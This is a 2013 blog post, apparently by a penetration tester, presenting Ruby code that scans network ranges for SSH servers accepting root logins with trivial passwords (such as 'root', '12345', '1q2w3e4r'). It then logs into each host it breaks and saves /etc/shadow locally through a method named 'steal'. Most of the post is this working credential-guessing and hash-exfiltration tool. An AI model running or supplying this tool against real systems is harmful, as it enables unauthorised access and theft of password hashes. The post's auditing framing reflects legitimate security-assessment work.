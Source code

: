 ```yaml
---
layout: post
title: "Exploiting SSH weak passwords the ruby way"
date: 2013-02-15 08:08
comments: true
published: true
featured: false
categories: breakers pentest codesake ruby ssh password sysadmins
thumb: ssh.png
level:
hn: 
rd: 
---
```


Even before starting writing complex input filters to manage your users' input,
you **must** care about the password you use on your servers.
If they are poor, no application security on Earth would save you against a break-in.

<!-- more -->

## Scenario

You are pentesting your customer's network. A lot of servers are answering to
SSH protocol in order to allow remote management. No problem with this, of
course you may want to deal with remote management also using some _identity
and access management_ product in order to centralize admin login and to have a
truly random root password on each server.

There are some well known passwords every not-so-security-aware sysadmin would
use to protect root account:

* God
* Sex
* Password
* root
* 12345
* 1q2w3e4r

I'm not jocking. They are still here. People still use weak passwords since
they are quick to memorize and to type on the keyboard. 

The funny bit here is that most of time is spent by root to be idle looking at
the _ls -l_ command output. Grin.

Do you need a very quick script to check for root default credentials? I'll
give you one I wrote and that I found useful in a lot of security assessments.

## Implementation

What we need here is to connect to a given host on a given port using the SSH
protocol. Our script must be flexible enough to accept an arbitrary host and
also arbitrary ports. System administrators may have changed SSH default port
to their server, so we would parameterize it instead of hardcoding "22" in our
script.
We need also a way to manage IP addresses notation, in order to scan whole
networks without specifying every single host.

We're lucky enough, all we need is on standard library. We just want to install
the [net-ssh](https://rubygems.org/gems/net-ssh) ruby gem.

``` ruby 
$ gem install net-ssh
```

Our script would read a config file for target SSH ports and trivial password
to use. We won't code an ssh bruteforcer, we just want to check if some hosts
in the environment have very trivial password values for root account.

``` ruby a very basic read_conf method
require 'yaml'

...

def self.read_conf(conf_file=nil)
  
  (conf_file.nil?)? file='./ssh_takedown.yaml' : file=conf_file
  (File.exists?(file))? config = YAML.load_file(file) : config = {"config"=>{"ports_to_scan"=>"22", "password_list"=>"root,password"}}

  config
end

# A basic configuration file...
#
# config:
#  ports_to_scan:  "22,2022,3022"
#  password_list:  "God,sex,xxx,Password,root,12345,1q2w3e4r"

# ... and its usage...
#
# 1.9.3-p194 :009 > require 'yaml'
# => true 
# 1.9.3-p194 :010 > read_conf("./con.yaml")
# => {"config"=>{"ports_to_scan"=>"22,2022,3022", "password_list"=>"God,sex,xxx,Password,root,12345,1q2w3e4r"}} 
# 1.9.3-p194 :013 > ports = conf["config"]["ports_to_scan"].split(',')
# => ["22", "2022", "3022"] 

``` 

Starting from ruby 1.9 there is a great class in the standard library taking
care of all the stuff about ip addresses.
The idea here is to use this standard library class to manage how inputs in
term of VLANs.

The to_range method helps us in create a list of single host IPAddr classes
that can be used in a loop.

``` ruby the ipaddr facility 
require 'ipaddr'

net = IPAddr.new("192.168.1.0/24")
net.to_range # => #<IPAddr: IPv4:192.168.1.0/255.255.255.0>..#<IPAddr: IPv4:192.168.1.255/255.255.255.0>
net.to_range.count # => 256
``` 

Our main class would take config values, splits the comma separated options and
be ready for the takeover.

``` ruby Codesake::SSH::Takedown class

require 'ipaddr'
require 'net/ssh'

module Codesake
  module SSH
    class Takedown

      attr_reader :ports
      attr_reader :passwds
      attr_reader :target
      attr_reader :results

      def initialize(target, config)
        @ports = conf_to_ports(config)
        @passwds = conf_to_passwds(config)
        @target = target
      end

      def analyse
        @results = []


        @target.to_range.each do |host|
          @passwds.each do |pass|
            @ports.each do |port|
              @results << {:host=>host.to_s, :port=>port, :pass=>pass} if connect(host.to_s, port, pass)
            end
          end
        end  
        @results
      end

      def takedown
        @results.each do |result|
          steal(result[:host], result[:port], result[:password])
        end
      end
      
      private 

      def steal(host, port, password)
       begin
          ssh = Net::SSH.start(host, "root", {:password=>password, :port=>port, :timeout=>3})
          data = ssh.exec!("cat /etc/shadow")
          f_d = File.new(host+"_shadow", "w") 
          f_d.write(data)
          f_d.close
          ssh.close
          ret = true
        rescue => e
          ret = false
        end
        ret
      end

      def connect(host, port, password) 
        begin
          ssh = Net::SSH.start(host, "root", {:password=>password, :port=>port, :timeout=>3})
          ssh.close
          ret = true
        rescue => e
          ret = false
        end

      end 
      
      def conf_to_ports(config)
        config["config"]["ports_to_scan"].split(',')
      end

      def conf_to_passwds(config)
        config["config"]["password_list"].split(',')
      end
      
    end
  end
end

``` 

Now you can glue pieces together.


``` ruby a ssh weak passwords detect script... you can star from here and improve it to fit best your needs
require 'yaml'
require 'ipaddr'

# defaulting values here
conf = Codesake::Config.read_conf
net = ARGV[0]

Kernel.exit(-1) if net.nil? or net.empty?

ips  =IPAddr.new(net)
engine = Codesale::SSH::Takedown.new(ips, conf)
results = engine.analyse
  
# steal /etc/shadow
engine.takedown
```

Now we can call this script specifying networks in the [CIDR notation](http://en.wikipedia.org/wiki/CIDR_notation) and having shadow files
to be saved in the current directory.

## Off by one

Security starts from protecting your hosts with strong passwords for super user
account. Period. No matter how good is your web code, if you leave the main
door opened, your data are compromised as well as your code is suffering by SQL
Injections.

Now, an announcement. Next April I'll talk at [Railsberry 2013](http://railsberry.com)
on about using ruby in a deep web application [penetration test](http://railsberry.com/speakers#paolo).
It would be a great conference and I'm very excited about being part of it.
There will be a lot of great software engineer... I hope they'll love some
security rants :)
